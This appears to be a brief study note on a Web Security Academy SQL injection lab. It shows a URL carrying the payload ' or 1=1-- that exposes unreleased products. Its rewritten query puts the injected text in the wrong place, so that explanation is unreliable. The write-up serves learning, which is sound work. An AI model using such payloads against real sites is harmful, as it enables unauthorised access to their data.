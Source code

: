 
We've got the next SQL Query

SELECT * FROM products WHERE category = 'Gifts' AND released = 1


We need to release the application to display one or more unreleased products

Original Link
https://0a850035038ecb8880f54e6f00550058.web-security-academy.net/filter?category=Corporate+gifts

Modified Link with the SQL Injection

https://0a850035038ecb8880f54e6f00550058.web-security-academy.net/filter?category=Corporate+gifts ' or 1=1-- ' 

So now:

SELECT * FROM products WHERE category = 'Gifts' AND released = 1 'or 1=1 --'

The -- comments the rest of the query so it will ignore the rest because it could be something like:

SELECT * FROM products WHERE category = 'Gifts' AND released = 1 AND permission= Admin